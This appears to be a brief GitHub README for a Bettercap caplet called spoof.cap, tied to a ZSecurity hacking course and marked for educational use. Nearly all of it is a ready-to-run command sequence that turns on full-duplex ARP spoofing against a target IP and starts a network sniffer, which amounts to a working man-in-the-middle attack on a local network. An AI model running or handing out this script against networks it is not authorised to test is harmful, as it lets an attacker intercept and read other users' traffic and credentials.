 # Script
Spoof.cap script for Bettercap! ZSecurity, Educational purposes ONLY

`net.probe on
set arp.spoof.fullduplex true
set arp.spoof.targets 10.0.2.7 (target IP here)
arp.spoof on
net.sniff on`
